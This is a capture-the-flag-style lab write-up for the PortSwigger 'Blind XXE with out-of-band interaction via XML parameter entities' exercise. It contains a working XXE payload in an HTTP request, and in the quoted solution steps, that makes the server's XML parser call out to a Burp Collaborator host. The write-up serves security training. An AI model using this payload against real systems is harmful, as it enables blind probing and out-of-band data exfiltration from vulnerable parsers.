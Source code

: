 


#### Blind XXE with out-of-band interaction via XML parameter entities

> This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.
>
> To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 

exploit

```http
POST /product/stock HTTP/1.1
Host: 0af200e504867f99c13b0b9300a1000a.web-security-academy.net
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://a7ij3gak5vcg6704hh21c3r2wt2jq8.burpcollaborator.net"> %xxe; ]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
                    </li>
                    <li>
                        Go to the Burp menu, and launch the Burp Collaborator client.
                    </li>
                    <li>
                        Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
                    </li>
                    <li>
                        <p>
                            Insert the following external entity definition in between the XML declaration and the <code>stockCheck</code> element, but insert your Burp Collaborator subdomain where indicated:
                        </p>
                        <code class="code-scrollable">&lt;!DOCTYPE stockCheck [&lt;!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"&gt; %xxe; ]&gt;</code>
                    </li>
                    <li>
                        Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.
                    </li>
                </ol>
            </div>
        </div>
